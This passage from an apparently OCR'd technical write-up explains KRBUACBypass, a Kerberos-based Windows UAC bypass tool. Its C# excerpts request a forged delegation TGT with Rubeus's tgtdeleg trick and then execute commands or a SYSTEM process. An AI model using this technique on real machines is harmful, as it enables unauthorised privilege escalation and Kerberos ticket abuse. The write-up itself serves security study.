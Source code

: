 ```c#
		{
			// display tickets with the "Full" format
			LSA.DisplaySessionCreds(sessionCreds, LSA.TicketDisplayFormat.Klist);
			try
			{
				KrbSCM.Execute(command);
			}
			catch { }
			return;
		}
		else
		{
			Console.WriteLine("[-] Please request a HOST service ticket for the current user first.");
			Console.WriteLine("[-] Please execute: KRBUACBypass.exe asktgs.");
			return;
		}
	}

	if (method == "system")
	{
		try
		{
			KrbSCM.RunSystemProcess(Convert.ToInt32(args[1]));
		}
		catch { }
		return;
	}
}
```

### Asktgs 

The "asktgs" module first calls the `LSA.RequestFakeDelegTicket()` method provided by Rubeus to execute the tgtdeleg technique. It then saves the returned user TGT as a byte type in the variable `blah`, as shown below:

```c#
if(method == "asktgs")
{
	// Execute the tgtdeleg trick
	byte[] blah = LSA.RequestFakeDelegTicket();
	KRB_CRED kirbi = new KRB_CRED(blah);
	Ask.TGS(kirbi, service, requestEType, outfile, ptt, domainController);
}
```

After obtaining the contents of `blah`, you can initialize it as a KRB_CRED type according to ASN.1 encoding rules. Once you have the TGT in the form of a KRB_CRED type, you can then add or modify elements within the TGT.

> The Kerberos protocol is defined here in terms of Abstract Syntax Notation One (ASN.1) [X680], which provides a syntax for specifying both the abstract layout of protocol messages as well as their encodings. 

